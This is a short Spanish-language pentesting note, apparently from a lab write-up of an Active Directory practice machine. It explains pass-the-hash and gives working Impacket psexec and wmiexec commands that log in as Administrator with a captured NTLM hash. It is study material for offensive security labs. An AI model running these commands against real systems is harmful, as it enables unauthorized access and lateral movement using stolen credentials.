 # **Pass the hash con psexec**
Se trata de robar una credencial de usuario en forma de hash; y luego sin descifrar, la reutiliza para engañar a un sistema de autenticación para que cree una nueva sesión autenticada en la misma red. Es decir, se trata de una técnica que nos permite loguearnos con un usuario simplemente proporcionando su hash; y para ello podemos usar psexec.
```
psexec.py Administrator@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```
![[Pasted image 20240717113510.png]]
[[MAQUINA ATTACKTIVE DIRECTORY(enum4linux, kerbrute enumerar usuarios, ASREPRoasting obtener TGT, john the ripper, smbclient para listar recursos compartidos, secredump dumpear hashes y pass the hash)]]

-----------------------------
# **impacket wmiexec**

También podemos hacer esto mismo con wmiexec de impacket de la siguiente forma, donde hacemos un pass the hash y nos autenticamos:
```
wmiexec.py spookysec.local/Administrator@10.10.143.170 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```
![[Pasted image 20240717122508.png]]

